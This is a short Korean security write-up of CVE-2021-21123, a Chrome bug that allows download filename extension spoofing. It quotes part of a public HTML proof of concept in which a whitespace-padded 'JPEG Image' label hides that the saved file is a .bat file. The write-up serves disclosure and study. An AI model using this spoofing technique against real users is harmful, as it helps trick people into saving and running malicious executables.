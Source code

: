 ```yaml
---

title: "[하루한줄] CVE-2021-21123: Chrome에서 발생하는 확장자 spoofing"
author: Fabu1ous
tags: [Fabu1ous, spoofing, chrome]
categories: [1day1line]
date: 2021-04-03 14:00:00
cc: true
index_img: /img/1day1line.png
---
```


## **URL**

[Issue 1137247: Security: Spoofing download filename extension in 86 chrome](https://bugs.chromium.org/p/chromium/issues/detail?id=1137247)



## **Target**

Google Chrome < 88.0.4324.96



## **Explain**

> CVE-2021-21123:  88.0.4324.96 이전 Google Chrome의 File System API에서 불충분한 데이터 유효성 검사를 통해 공격자는 조작된 HTML 페이지를 통해 파일 시스템 제한을 무시할 수 있습니다. 

```html
<script>
        const butSaveNewFile = document.getElementById('addNewFile')
        butSaveNewFile.addEventListener('click', async () => {
            const options = {
                types: [
                    {
                        description:
                            'JPEG Image (*.jpeg)                                                                                                                                                                                                                                                         ',
                        accept: {
                            'text/plain': ['.bat']
                        },
                        content: 'C:\\Windows\\system32\\calc.exe'
                    }
                ]
            }
            const handle = await window.showSaveFilePicker(options)
            const writable = await handle.createWritable()
            await writable.write('C:\\Windows\\system32\\calc.exe')
            await writable.close()
            alert('File saved')
        })
    </script>
```

위는 공개된 HTML PoC의 일부입니다. 변수  `description`의 값은 Google Chrome이 호출하는 "Save as(다른 이름으로 저장)" 창에서 다운로드 될 파일의 확장자를 사용자에게 보여주는 용도로 사용됩니다. `description`에 연속적인 공백문자 혹은 `*`이 포함되지 못하도록 막는 필터링의 부재로 인해 다운로드 될 파일의 실제 확장자를 숨기거나 속일 수 있습니다(Spoofing download filename). 해당 취약점을 악용해 원격으로 타겟 시스템에 악성 코드를 설치 및 실행할 수 있기 때문에 User Interaction이 필요함에도 불구하고 심각도 "상"이 부여됐습니다.


